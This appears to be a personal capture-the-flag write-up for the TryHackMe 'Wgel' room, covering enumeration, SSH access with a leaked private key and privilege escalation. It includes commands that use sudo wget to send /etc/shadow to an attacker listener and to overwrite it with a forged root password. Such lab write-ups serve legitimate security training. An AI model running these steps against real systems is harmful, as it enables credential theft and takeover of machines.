#wget 

https://tryhackme.com/r/room/wgelctf

---
#### Nmap
![[Screenshot_2024-05-15_07-04-33.png]]The first enumeration with `gobuster` gave me `/sitemap/`

I used `nikto` and it gave me the `/sitemap/.ssh` location with an `id_rsa` key inside, thanks god:
```shell
nikto -host http://10.10.198.195/sitemap/
```

After looking in the source code, I found the username `jessie`, hope this one will bring me luck

```shell
ssh jessie@10.10.73.124 -i ./id_rsa
```

And here I m in. The `sudo -l` told me that I can use `/usr/bin/wget` as sudo without password.

Firstly I have to setup a listener on my pc
```
nc -lvnp 9002
```
Then I send the `/etc/shadow` file in the listener with `wget`
```shell
sudo /usr/bin/wget --post-file=/etc/shadow 10.14.76.56:9002
```
I put the received `shadow` in a file and I create a new password for the root user
```shell
opensll passwd -6 -salt 'salt' 'password'
```
And I put the new password on the root user in the `shadow` file on my pc, then I setup a python server to get it back on the target machine through `wget`
```shell
sudo /usr/bin/wget http://10.14.79.56/shadow -O /etc/shadow
```
The old `shadow` is replace and I can `su root` with the new `password`
